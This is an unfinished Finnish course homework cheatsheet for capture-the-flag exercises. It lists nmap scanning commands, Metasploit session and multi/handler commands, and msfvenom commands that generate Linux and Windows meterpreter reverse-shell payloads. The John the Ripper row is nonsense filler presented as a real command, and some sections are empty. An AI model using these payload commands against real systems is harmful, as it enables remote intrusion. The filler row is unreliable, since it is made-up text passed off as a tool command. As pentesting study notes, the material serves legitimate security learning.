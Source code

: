 # a) Cheatsheet. Kerää parhaat komennot lipunryöstöä varten. Lähteinä voit käyttää omia ja kurssikavereiden läksyraportteja, vanhoja cheatsheet:eja sekä vierailijoiden kalvoja. (Kerää nimenomaan ne komennot ja sisältö, ei pelkkää linkkilistaa, ei pelkkää kuvailua. Tässä alakohdassa komentoja ei tarvitse kokeilla koneella).

NMAP
| Syntax | Description |
| :--- | ---: |
| nmap -A -p- <'ip-address'> | Laaja porttiskannaus kaikille portille 1-65535 kohde IP koneelle. |
| nmap <'ip-address'> | Perusmuotoinen TCP SYN skannaus yleisimmille porteille 1-1000 kohde IP koneelle. |
| nmap --top-ports <'n'> <'ip-address'> | Perusmuotoinen skannaus yleisimmille 'n' määrälle porteille. Yleensä 1000. |  

FFUF
| Syntax | Description |
| :--- | ---: |
|  |  |

METASPLOIT FRAMEWORK
| Syntax | Description |
| :--- | ---: |
| jobs -l ; -k | -l listaa käynnissä olevat tehtävät ja -k pysäyttävät ne. |
| sessions -l ; -i | -l listaa käynnissä olevat meterpreter sessiot ja -i ottaa siihen yhteyden |
| show -h  | Näyttävät vaihtoehdot mitä voidaan näyttää esim. payloads, exploits, plugins jne. |

METASPLOIT/MULTI/HANDLER
| Syntax | Description |
| :--- | ---: |
| use exploit/multi/handler | Payload handlerin käyttö |
| set PAYLOAD; LHOST; LPORT; ExitOnSession; run | Multi-handler parametrien asetukset |

MSFVENOM 
| Syntax | Description |
| :--- | ---: |
| msfvenom -p <'PAYLOAD'> -f <'Filetype'> LHOST= <'localhost-ip'> LPORT= <'listeningport'> > <'output-filename'> | msfvenom payloadin generointi |
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf | Linux reverse-tcp payload generointi |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe | Windows reverse-tcp payload generointi |


JOHN THE RIPPER
| Syntax | Description |
| :--- | ---: |
| asdge.spede asd asdjfj -p | kekistlol |

HASHCAT
